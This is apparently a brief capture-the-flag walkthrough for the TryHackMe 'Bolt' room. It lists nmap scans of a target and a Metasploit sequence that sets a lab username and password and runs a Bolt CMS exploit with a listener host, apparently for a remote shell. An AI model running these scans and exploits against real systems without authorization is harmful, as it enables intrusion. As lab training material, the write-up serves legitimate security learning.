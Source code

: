 # Bolt

**Room Link:** [https://tryhackme.com/room/bolt](https://tryhackme.com/room/bolt)



### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>





### Scan all ports

No other ports found.

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>







<figure><img src="../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

###

###

###

**Kali**

```
msfconsole
```

**Kali(msfconsole)**

```
search bolt
use 0
set RHOST $VICTIM
set LHOST $KALI
set USERNAME bolt
set PASSWORD boltadmin123
set TARGETURI http://$VICTIM:8000
run
```

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>























































